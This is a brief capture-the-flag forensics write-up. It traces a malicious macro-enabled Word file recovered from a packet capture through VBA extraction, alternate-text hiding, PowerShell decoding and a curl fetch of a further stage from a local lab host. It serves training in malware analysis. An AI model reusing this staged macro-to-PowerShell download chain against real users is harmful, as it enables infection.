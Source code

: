 # FIle: 
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/9f982b056b326e26bf78bca33bd2fe65.pcapng  
# Solve: 
https://github.com/PWrWhiteHats/BtS-2024-Writeups/tree/master/forensics/free_flag/writeup  



1)We can get the freeflag.docm by exporting objects from HTTP.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/e57208d7-d871-4c00-971b-fce4fdedad88)  
2) Open the word in kali and using olevba you can get the macros.
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/11bb769f-b240-434d-b746-e1c101b51837)  
3) Using libreoffice(**Right Click on first image-->Properties-->Options-->Description**) you can get the alternate text for the image.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/b170f6bd-42bc-42e2-b077-78d02fc243c9)  
4) Converting the VBA code to python we get the output as a powershell script.  
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/code.py  
5)Time to decode the powershell script.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/7632494b-a186-44bd-b865-9101ba449fda)  
6)Identating the shell script we get it as: 
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/1a251011-df52-4797-9594-36de8c0d3e73)  
7) We can get the required file by : **curl http://192.168.56.1:1337/d9d9dec9d5d2**  
8) After that following the decryption we get the C# code.
9) Running the C# code on https://dotnetfiddle.net/ we get the flag.  
## Something new:  
1) Images may contain alternate text for helping visually impaired images which comes under macros.
